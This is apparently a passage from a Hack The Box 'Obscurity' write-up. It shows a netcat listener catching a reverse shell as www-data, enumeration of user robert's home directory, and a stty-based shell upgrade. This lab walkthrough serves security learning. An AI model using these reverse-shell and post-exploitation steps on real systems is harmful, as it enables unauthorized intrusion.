 I started my listener and caught the shell back after passing the above request through burp:

```console
root@discovery:~/htb/obscurity# nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.168] 53266
www-data@obscure:/$ id;pwd;ls 
id;pwd;ls
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
www-data@obscure:/$ 
```
Alright, so no access to the user `robert` flag so far. But it looks like I've got some acess to a few files in his directory:

```console
www-data@obscure:/home/robert$ ls -la
ls -la
total 60
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24 22:09 ..
lrwxrwxrwx 1 robert robert    9 Sep 28 23:28 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
drwx------ 2 robert robert 4096 Oct  3 16:02 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3 22:42 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3 16:34 .local
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
www-data@obscure:/home/robert$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
Something I saw recently that I liked was upgrading my weak shells with ones with *at least* tab complete. I did that here with the following steps:

* background my shell with `ctrl+z`
* type `stty raw -echo` in my local shell
* foreground my shell `fg + [enter x2]`

```console
www-data@obscure:/$ ^Z
[1]+  Stopped                 nc -lvnp 42069
root@discovery:~/htb/obscurity# stty raw -echo
root@discovery:~/htb/obscurity# nc -lvnp 42069

www-data@obscure:/$ ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
www-data@obscure:/$ cd home/
www-data@obscure:/home$ 
```
Sweet -- tab complete works now. Now its time to look for something to privesc to robert. 
